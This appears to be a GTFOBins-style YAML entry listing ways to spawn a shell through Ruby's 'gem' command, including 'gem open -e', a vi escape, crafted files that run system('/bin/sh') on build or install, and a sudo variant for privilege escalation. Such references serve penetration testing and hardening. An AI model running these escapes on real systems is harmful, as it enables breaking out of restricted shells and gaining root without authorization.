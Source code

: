 functions:
  shell:
    - description: This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: gem open -e "/bin/sh -c /bin/sh" rdoc
    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply. This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: |
        gem open rdoc
        :!/bin/sh
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem build $TF/x
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem install --file $TF/x
  sudo:
    - description: This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: sudo gem open -e "/bin/sh -c /bin/sh" rdoc
---

